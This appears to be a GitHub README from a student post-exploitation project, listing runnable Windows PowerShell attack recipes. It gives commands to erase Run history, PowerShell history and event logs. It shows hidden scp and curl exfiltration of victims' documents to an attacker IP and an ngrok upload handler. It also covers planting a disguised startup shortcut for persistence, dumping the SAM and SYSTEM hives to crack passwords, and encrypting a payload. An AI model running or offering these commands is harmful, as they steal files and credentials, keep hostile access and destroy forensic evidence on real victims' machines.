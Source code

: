 # Clear logs

1. Delete winrun history

   ```powershell
   Remove-Item -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU" -Recurse
   ```

2. List powershell command history

   ```powershell
   rm (Get-PSReadlineOption).HistorySavePath
   ```

3. Clear PowerShell events log (**Administrator only**)

   ```powershell
   clear-eventlog -logname "Windows PowerShell"
   ```

   

# Files exfiltration

### Method 1 - Using SCP

> For example, Hacker's SSH server is **43.56.175.249:55522**

On hacker's SSH server:

```bash
# Open simple python http server on hacker's host
cd ~/.ssh
python3 -m http.server 8880
```

On victim, download and configure private-key:

```bash
# Get private key from hacker's server
curl -o "$home\id_rsa" http://43.56.175.249:8880/id_rsa

# Configure permission
icacls "$home\id_rsa" /inheritance:r; icacls "$home\id_rsa" /grant:r ($(whoami) + ':R')
```

Exploit:

```powershell
# Open new process to send files
Start-Process powershell -windowstyle hidden {scp -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i "$home\id_rsa" -P 55522 -r "<Full path to folder>/*.docx" lamnc2@43.56.175.249:/home/lamnc2/data_exfil}
```



Copy file from SSH server to local machine:

```bash
scp -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i "$home\id_rsa" -P 55522 -r lamnc2@43.56.175.249:/home/lamnc2/data_exfil "I:\Temp_safe_to_delete\tmp"
```



### Method 2 - Using Curl

```powershell
# set $folder = folder to upload file
# set $upload_handler = url to upload handler on server
# powershell cmd: IEX (iwr -UseBasicParsing https://raw.githubusercontent.com/[link to this file])
$folder = 'I:\Personal\';
$upload_handler ='http://bc416b4d16e3.ngrok.io/upload_handler.php';
$name = [uri]::EscapeDataString((whoami));
$a = ''; (Get-ChildItem $folder -Filter '*' -Recurse -File | %{$a = $a + " -F `"file[]=@" + $_.FullName + "`" "});
$eval = "curl.exe $a $upload_handler`?folder=$name";
IEX $eval;
```

#### one-line

```powershell
$folder = 'F:\IAR401\';  $upload_handler='http://bc416b4d16e3.ngrok.io/upload_handler.php'; $name = 'hi'; $a = ''; (Get-ChildItem $folder -Filter '*.docx' -Recurse -File | %{$a = $a + " -F `"file[]=@" + $_.FullName + "`" "}); $eval = "curl.exe $a $upload_handler`?folder=$name";IEX $eval;
```



# Startup shortcut to perform scripts

### Idea

Store a malicious shortcut in startup folder. 

- startup folder (for current user) `C:\Users\<current user>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` = `$HOME\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`
- startup folder (for public user)



### Create malicious shortcut

![image-20201102112123102](/PowerShell%20scripts%20images/image-20201102112123102.png)



### Procedure

1. change dir to startup folder: `cd "$HOME\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"`

2. download malicious shortcut using 

   1. **Cmd**:

      `curl -L https://github.com/lamthanhnam/fpt_do-an_2020/raw/master/post_exploitation/start_up/hi.lnk` 

      - `-L`: follow redirection

   2. **Powershell**:

      `curl https://github.com/lamthanhnam/fpt_do-an_2020/raw/master/post_exploitation/start_up/hi.lnk`

   

#### **One-line command**

```bash
cd "$HOME\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"; curl -o "Microsoft Edge.lnk" https://github.com/lamthanhnam/public/raw/master/start_up/hi.lnk
```





# Get SAM and SYSTEM file for password decryption

```powershell
reg save hklm\sam $env:PUBLIC\Documents\hi_sam
reg save hklm\system $env:PUBLIC\Documents\hi_system
```





# Symmetric Encryption

Apply symmetric encryption to encrypt payload

```powershell
# Use with one-line command only
# Initial vars
$PayloadPath = "$pwd\rs_pay_final"
# $key = "1234567890123456" #<16, 24, 32 chars>
# $skey = [byte[]]("$key").ToCharArray()
$skey = (1..16)

# create secure string
$content = cat $PayloadPath

#---------- Encrypt -------------
$ss = ConvertTo-SecureString -String "$content" -Force -AsPlainText
$cipher = ConvertFrom-SecureString -SecureString $ss -Key $skey #Converts a secure string to an encrypted standard string

#----------- Decrypt -------------
# Apply to: https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.securestringtobstr?view=netcore-3.1#moniker-applies-to
# Ref: https://stackoverflow.com/a/28353003

# ----- Prepare variable for decrypt
$cipher = "..."
$skey = [byte[]]
$ss = ConvertTo-SecureString -String $cipher -Key $skey #Converts an encrypted standard string to a secure string

# ----- DECRYPT METHOD 1
Function ConvertTo-UnsecureString {
   Param (
       [System.Security.SecureString]$ss
   )
   Try { # main decode function
       $ptr = [System.Runtime.InteropServices.Marshal]::SecureStringToGlobalAllocUnicode($ss)
       [System.Runtime.InteropServices.Marshal]::PtrToStringUni($ptr)
   }
   Finally {
       [System.Runtime.InteropServices.Marshal]::ZeroFreeGlobalAllocUnicode($ptr)
   }
}
$plain = ConvertTo-UnsecureString $ss

# ----- DECRYPT METHOD 2
$BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($ss)
$plain = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)

echo $plain

# ---------- Print output -------------------
Write-Host -NoNewline "$cipher"
#-------------- Write encrypted payload to file -------
Out-File -FilePath .\encrypted_rs_pay -InputObject "$func`n$cipher" -Encoding ASCII
Out-File -FilePath "$pwd\encrypted_payload" -InputObject "$cipher" -Encoding ASCII -NoNewline ;
```



# Basic

### Tail

> Equivalent to tail command in Linux

```
 Get-Content .\access.log -Wait -Tail 3
```